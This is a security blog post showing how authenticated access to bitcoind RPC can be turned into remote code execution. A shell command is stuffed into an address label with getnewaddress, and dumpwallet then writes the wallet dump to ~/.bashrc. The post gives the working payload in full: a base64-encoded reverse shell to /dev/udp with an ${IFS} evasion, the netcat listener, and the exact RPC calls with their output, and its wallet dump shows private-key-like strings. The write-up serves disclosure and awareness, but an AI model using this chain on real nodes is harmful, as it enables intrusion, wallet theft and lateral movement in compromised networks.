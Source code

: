 ```yaml
---
layout: post
title:  "Pwning Bitcoind RPC To RCE"
date:  2021-10-06 10:18:00
categories: Security
---
```


Exposing the bitcoind rpc has always been a bad idea, but let's make it worse! We discovered that the usage of bitcoind's `getnewaddress` and `dumpwallet` can be abused to gain remote code execution, essentially elevating our limited access from `bitcoind` to a full complete "SSH" shell allowing us to execute arbitrary commands. 

## Introduction
This potential security vulnerability has been reported to the Bitcoin Core security team but there is insufficient interest in patching this, but the least we should do is raise some awareness that the bitcoind rpc exposes dangerous functions.

The impact is severely limited because:
* attackers require authenticated access to `bitcoind`
* `bitcoind` only binds to localhost by default
* triggering code execution is not straightforward

This technique can mainly be used to perform lateral movements within an already compromised environment.

## Nearly arbitrary write access through dumpwallet
We can leverage the `dumpwallet` command to write a file to an absolute path.
This can be leveraged to write files into sensitive locations such as `~/.bashrc`
Other locations such as `~/.bash_profile` or `~/.bash-login` are also interesting, these have a higher chance of not having a file already but will only trigger when a new ssh login happens.

We can only write non-executable files, but this isn't really a constraint because the interesting locations mentioned above do not require the executable property. The shell will read the contents of the file into a variable and execute it.

Bash is an interesting target because it does not stop execution if a command failed. This is instrumental to skip over the "garbage" lines because we don't actually control the format of the file created by `dumpwallet`.

The label of an address created through `getnewaddress` serves as our entrypoint into our dumpwallet file, we can stuff bash commands in this field.

Labels barely do any filtering for useful characters:
```
"label": "~!@#$%^&*()-_=+[]\\{}|;':\",./<>?",
```

The final layout of the dumpfile looks like this (redacted a bit):
```
# Wallet dump created by Bitcoin v0.20.1
# * Created on 2021-01-05T18:59:14Z
# * Best block at time of backup was 0 (000000000019d6689c085ae165831e934ff763ae46a2a6c172b3f1b60a8ce26f),
#   mined on 2009-01-03T18:15:05Z

# extended private masterkey: REDACTED

L5REoWnddZLx315Bmh2fhHujTMQB5DBFREaia9osDfUaoiMtk6RA 2021-01-05T18:49:04Z reserve=1 # addr=bc1qqq5dsec72dv0g6nyxld0ykxtzau7pwau99dz5v hdkeypath=m/0'/0'/198'
L3p1RYmgarF1Ps6tdmLFon6iGKQMAZhLMH4HoV1eqvPkAF7Eqyxy 2021-01-05T18:49:04Z reserve=1 # addr=bc1q4e4vq855ljth9f3ykqvunr6xnc7aaaav6wpmgl hdkeypath=m/0'/0'/638'
KzHgJs6DSAnxab5tRD7jpDLoNUgtSyxPHbJS1ZW5dhJa5r9xG9Px 2021-01-05T18:49:04Z label=;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash; # addr=bc1q4ely2lu9du0mspersm9yvn2ttruv5z54aesnjv hdkeypath=m/0'/0'/2'
L1cE5swB5R8Bf9A2tN4yQH17fRDTm96YPdhw3YSdbdgDpUb7v8kA 2021-01-05T18:49:04Z reserve=1 # addr=bc1q469p9czc9kr74zelmx00pptfsqkuut9uedk4mj hdkeypath=m/0'/0'/405'

```

## Payload

The final payload that we'll use in this PoC looks like this:
```
;(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;
```

### Stage 1
```
;(base64${IFS}-d${IFS}<<<${BASE64_ENCODED_STAGE_2_PAYLOAD})|bash;
```
The first stage of the payload decodes the stage 2 payload and executes it.
Mostly a convenience feature because labels will encoded the space character ` ` to `%20`.
Luckily we can use `${IFS}` as a substitution, which is the variable that bash uses for whitespace detection.

Our actual payload is base64 encoded, that way we don't need to deal with the space issue in the actual payload.

### Stage 2

Insecure shell to ip address 127.0.0.1 on port 4242
```
$ sh -i >& /dev/udp/127.0.0.1/4242 0>&1
```

Encoding it to base64
```
$ echo "sh -i >& /dev/udp/127.0.0.1/4242 0>&1" | base64
c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQo=
```

The attacker will be listening there, we can use the following command to do that:
```
$ nc -u -lvp 4242
```

## Attack

### Extract path of the user

```
getrpcinfo
{
  "active_commands": [
    {
      "method": "getrpcinfo",
      "duration": 20
    }
  ],
  "logpath": "/home/user/.bitcoin/debug.log"
}

```
Default log path can reveal this.
But this may not be as easy when a non default datadirectory is used.

### Create an address with our label as payload
```
getnewaddress ";(base64${IFS}-d${IFS}<<<c2ggLWkgPiYgL2Rldi91ZHAvMTI3LjAuMC4xLzQyNDIgMD4mMQ==)|bash;"
bc1qccznzj3k7y79jwqyttn8e2lhlwlyznrxqa65yk
```

### Dumping the wallet a file
Let's assume that `.bashrc` doesn't exist, for the sake of having an example that is easy to reproduce.
There are a few better locations as mentioned above that will also work quite well.
```
dumpwallet /home/user/.bashrc
{
  "filename": "/home/user/projects/BitcoindPwner/bitcoin-0.20.1/bin/test"
}
```

### Now we wait
A trap has been laid out, we now only require a bash shell to be spawned on the server which loads our malicious `.bashrc` which in turn trigger our malicious payload.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Pwning Bitcoind RPC To RCE<br>https:/RealKeyboardWarrior.github.io/security/2021/10/06/pwning-bitcoind-to-rce.html</p>&mdash; KeyboardWarrior (@Keyb0ardWarr10r) <a href="https://twitter.com/Keyb0ardWarr10r/status/1445546006284685317?ref_src=twsrc%5Etfw">October 6, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
